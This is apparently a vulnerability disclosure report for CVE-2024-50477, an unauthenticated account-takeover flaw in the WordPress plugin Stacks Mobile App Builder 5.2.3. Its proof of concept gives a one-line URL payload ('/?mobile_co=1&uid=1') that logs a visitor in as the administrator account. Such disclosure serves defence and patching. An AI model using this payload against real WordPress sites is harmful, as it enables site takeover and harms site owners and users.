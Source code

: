 # Post Report Info

- Link: https://patchstack.com/database/vulnerability/stacks-mobile-app-builder/wordpress-stacks-mobile-app-builder-plugin-5-2-3-account-takeover-vulnerability
- CVE: 2024-50477
- Bounty: 58.8 AXP

The Stacks Mobile App Builder – The most powerful Mobile Applications Drag and Drop builder plugin is vulnerable to an unauthenticated privilege escalation giving an attacker the ability to login as any WordPress user.

## Affected Plugin

Link: https://wordpress.org/plugins/stacks-mobile-app-builder/

## Proof of Concept

1. Install and activate this plugin
2. Navigate to the following URL to become the USER with id = 1

```
/?mobile_co=1&uid=1
```

3. Congrats on your new admin powers.
    


    